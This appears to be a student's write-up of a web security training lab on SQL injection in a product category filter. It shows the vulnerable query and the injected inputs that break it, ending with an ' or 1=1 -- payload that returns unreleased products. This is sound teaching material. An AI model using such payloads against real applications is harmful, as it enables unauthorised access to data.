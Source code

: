 ## Lab 1


**SQL injection - product category filter**

**Query:**

>    SELECT * FROM products WHERE category = 'Gifts' AND released = 1

**End goal**: 
display details of all products both released and unreleased.

**Analysis**:
The following in a normal query:

>    SELECT * FROM products WHERE category = 'Pets' AND released = 1

The following acuses an internal server error:

>    SELECT * FROM products WHERE category = ''' AND released = 1

The following is run with no error:

>    SELECT * FROM products WHERE category = ''--' AND released = 1

The following will display all products both released and unreleased:

>    SELECT * FROM products WHERE category = '' or 1=1 --'  AND released = 1